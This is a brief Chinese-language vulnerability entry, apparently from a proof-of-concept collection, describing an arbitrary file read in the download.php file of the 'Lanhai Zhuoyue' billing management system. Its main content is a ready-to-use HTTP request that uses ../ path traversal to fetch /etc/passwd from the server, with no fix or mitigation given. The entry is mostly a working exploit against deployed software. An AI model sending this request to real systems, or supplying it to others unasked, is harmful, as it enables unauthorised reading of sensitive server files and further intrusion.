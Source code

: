 # 蓝海卓越计费管理系统 任意文件读取漏洞


蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件.

poc：

```
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
```

via：peiqi
